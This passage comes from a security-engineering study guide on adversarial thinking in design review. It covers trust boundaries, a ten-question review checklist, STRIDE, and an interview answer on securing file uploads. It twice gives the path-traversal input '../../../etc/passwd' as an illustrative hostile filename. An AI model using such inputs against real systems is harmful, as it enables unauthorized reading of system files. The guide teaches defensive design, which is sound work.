| "Adversarial thinking means thinking like a hacker, which means learning hacking tools." | Adversarial thinking is a design mindset, not a toolset. The most important adversarial thinking question: "What does this component TRUST, and should it?" No Burp Suite required. "Can user input reach this query without sanitization?" - this is adversarial thinking. It requires reading code, not running exploits. Understanding attack classes (IDOR, SSRF, SQL injection, path traversal): does require some security knowledge. But: the vast majority of adversarial thinking is applied common sense: "What happens if this API parameter is controlled by the attacker? What's the worst thing they could do?" The tool competence: useful for penetration testing (verifying vulnerabilities) but NOT required for adversarial design review (finding them at the design stage). A developer who has never used Burp Suite can still ask: "Our file upload endpoint: what if the filename contains '../../../etc/passwd'?" That question: adversarial thinking. No tools needed. |

---

### 🚨 Failure Modes & Diagnosis

**Common failures in adversarial thinking:**

```
FAILURE: MISSING THE TRUST BOUNDARY

  Design review: "The API validates all inputs. We're secure."
  
  MISSED: "The API validates inputs from EXTERNAL users. But:
  the API trusts requests from internal services without validation."
  
  An attacker who compromises an internal service (e.g., via a supply chain attack):
  can send arbitrary requests to the API with no input validation.
  The trust boundary: not at the external API. At the internal service.
  
  ADVERSARIAL QUESTION THAT CATCHES THIS:
  "At each trust boundary: what is authenticated? What is authorized?"
  "Is there ANY path to reach this component with less validation than the external path?"
  
  Detection: draw the architecture diagram. Mark every trust boundary.
  For each boundary: "What assumptions does the receiver make about the sender?"
  Unvalidated assumptions: attack surface.

ADVERSARIAL REVIEW CHECKLIST (10 questions):

  1. What does each component TRUST? Should it? (trust boundaries)
  2. What are the security INVARIANTS? How would an attacker violate them?
  3. Can an attacker PREDICT any tokens, IDs, or random values?
  4. Can an attacker ACCESS data or operations they shouldn't? (authz, IDOR)
  5. What happens with BOUNDARY inputs? (empty, negative, maximum, null, special chars)
  6. Are there RACE CONDITIONS in any stateful operations?
  7. What is the BLAST RADIUS if any single component is compromised?
  8. Can an attacker cause DENIAL OF SERVICE without special privileges?
  9. What INFORMATION LEAKAGE exists? (error messages, timing, response size)
  10. What happens if an attacker controls a DEPENDENCY? (supply chain, third-party API)
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `Secure by Design Principles` (SEC-133) - the design principles that adversarial thinking protects
- `Web Security Model` (SEC-135) - the browser security model to think adversarially about
- `Open Problems in Application Security` (SEC-137) - the unsolved problems that adversarial thinking must acknowledge

**Builds on this:**
- `Trust Boundary Analysis` (SEC-141) - the formalized method for adversarial boundary thinking
- `Assume-Breach Reasoning` (SEC-142) - adversarial thinking applied to post-compromise scenarios
- `Threat Modeling` (SEC-144) - the systematic, formal version of adversarial thinking

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ FIVE TOOLS    │ Abuse Cases (feature-level)              │
│               │ Attack Trees (system-level)              │
│               │ Attacker Model (capability scoping)      │
│               │ Invariant Testing (authorization verify) │
│               │ Lateral Movement (blast radius)          │
├───────────────┼──────────────────────────────────────────┤
│ 10 ADVERSARIAL│ Trust? Invariants? Predictable? AuthZ?   │
│ QUESTIONS     │ Boundaries? Race? Blast? DoS? Leakage?  │
│               │ Dependencies?                            │
├───────────────┼──────────────────────────────────────────┤
│ STRIDE        │ Spoofing, Tampering, Repudiation,        │
│ CATEGORIES    │ Info Disclosure, Denial of Service,      │
│               │ Elevation of Privilege                   │
├───────────────┼──────────────────────────────────────────┤
│ APPLY         │ Design: abuse cases, attack trees        │
│ WHEN          │ Review: invariant testing, STRIDE        │
│               │ Architecture: lateral movement, trust    │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Security is a property of the design. Test the design. Not just the implementation."
The most common mistake: treating security as a quality assurance activity (test it after you build it).
Security testing after implementation: finds the vulnerabilities that are already there.
Fixing them: requires rework. The most expensive kind of rework.
Adversarial thinking applied DURING DESIGN: finds the design gaps before any code exists.
The cost of fixing a design gap: a conversation and a specification change. Cheap.
The cost of fixing a code vulnerability: refactor, test, release, patch. Expensive.
The cost of fixing a deployed vulnerability: incident response, breach notification, regulatory fines. Very expensive.
The analogy: you wouldn't design a bridge and then test if it can support weight AFTER it's built.
The structural calculations: done during design. The design: modified based on the calculations.
Security: the same discipline. Threat model during design. Abuse cases during feature planning.
Invariant tests during development. Security: baked in, not bolted on.
This principle: applies to all resilience engineering, not just security.
Chaos engineering: "what happens when a service fails?" → design for failure tolerance.
Adversarial thinking: "what happens when an attacker tries to break this?" → design for attack resistance.
The mental shift: from "how do I build this?" to "what can go wrong with this?"
Both questions: necessary for engineering excellence.
The engineer who only asks the first: builds features that work when everything goes right.
The engineer who asks both: builds systems that work when things go wrong.

---

### 💡 The Surprising Truth

The most effective adversarial thinking technique: asking "What does this component TRUST?"
And then: "Should it?"

Every security vulnerability: is a violated trust assumption. Not a random coding error.

SQL injection: the database TRUSTS that the query it receives contains only SQL from the developer.
It SHOULD NOT trust this when the query is built from user input.

IDOR (Insecure Direct Object Reference): the API TRUSTS that the user_id parameter in the request
matches the authenticated user's ID. It SHOULD NOT trust the parameter. It should use the ID from
the authenticated session.

JWT algorithm confusion: the library TRUSTS the "alg" field in the JWT header to select the
verification algorithm. It SHOULD NOT trust user-supplied algorithm selection. The algorithm:
should be hardcoded in the verifier.

XXE (XML External Entity): the XML parser TRUSTS that processing external entities is safe.
It SHOULD NOT: external entity processing enables SSRF and file read.

Path traversal: the file system TRUSTS that the filename constructed from user input stays
within the intended directory. It SHOULD NOT: `../../../etc/passwd` violates this.

The adversarial question "What does this trust?" applied to every component: the single most
powerful mental model in security engineering. It converts "security is complex" into a
specific, answerable question for each component. The answer: either "this trust is justified,
because [control X validates it]" or "this trust is unjustified, and here's the attack."

Every trust assumption without a corresponding validation: an attack vector.
The systematic search for unjustified trust assumptions: adversarial thinking at its core.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **GENERATE** 5 abuse cases for any given feature: for each abuse case, name the attack class
   (IDOR, SQL injection, path traversal, CSRF, etc.) and the specific adversarial test.
2. **BUILD** a two-level attack tree for a given attack goal: root (attacker's goal), branches
   (independent attack paths), leaves (specific executable attacks), mitigations per leaf.
3. **WRITE** an explicit attacker model: what the attacker CAN do (tools, credentials, network access)
   and explicitly CANNOT do (break AES-256, physical access). Use the model to scope security controls.
4. **IDENTIFY** trust boundaries in a system diagram: for each boundary, name what is authenticated
   and authorized. Identify boundaries where trust is implicit (unjustified) vs. verified.
5. **ANALYZE** lateral movement: given "Component X is compromised," enumerate what the attacker
   can access from X (with X's service account privileges). Identify how to reduce blast radius
   (least privilege, network segmentation, service isolation).

---

### 🎯 Interview Deep-Dive

**Q: Walk me through how you would conduct an adversarial review of a new file upload feature
for a document management system.**

*Why they ask:* Tests whether the candidate can apply adversarial thinking systematically.
File upload: a classic high-risk feature with many documented attack classes.
Relevant for any senior backend or security engineer role.

*Strong answer covers:*
- Attack tree / abuse case generation: "I'd start with the most critical attack classes for file upload:
  (1) Content execution: can the uploaded file be executed? (PHP, JavaScript-bearing SVG, HTML with scripts)
  → Never serve user-uploaded files with executable MIME types from the same domain as the app.
  Serve from an isolated domain with CSP that disables script execution.
  (2) Path traversal: does the filename control where the file is stored?
  → Validate that the upload path stays within the uploads directory (os.path.realpath + prefix check).
  (3) MIME type spoofing: does validation check the header or the actual content?
  → Validate actual file content (magic bytes), not just Content-Type header.
  (4) Resource exhaustion: can an attacker upload many large files?
  → File size limits, rate limits per user, storage quota per account.
  (5) Malware storage: can the system be used as malware hosting?
  → Scan uploads with ClamAV or a cloud malware scanner before making available to other users."
- Trust boundary: "I'd ask: does the application server itself process the file? If so: the image
  processing library (ImageMagick, Pillow) is in the attack surface. Libraries with RCE vulnerabilities
  have been discovered (ImageTragick). Mitigate: process files in a sandboxed container with minimal
  privileges. The blast radius of an image processing RCE: should be minimal."
- Invariant testing: "Key invariant: 'A user cannot access another user's documents.'
  Test: upload as user A, try to access via user B's session. Should return 403.
  Test: share a document link as user A. Can user B modify or delete it? No."
- Closing with lateral movement: "If the document storage service is compromised:
  can the attacker reach the user database? No - the service should have read/write
  access ONLY to the document storage bucket. Service isolation and least privilege:
  limit what's accessible from a compromised file storage component."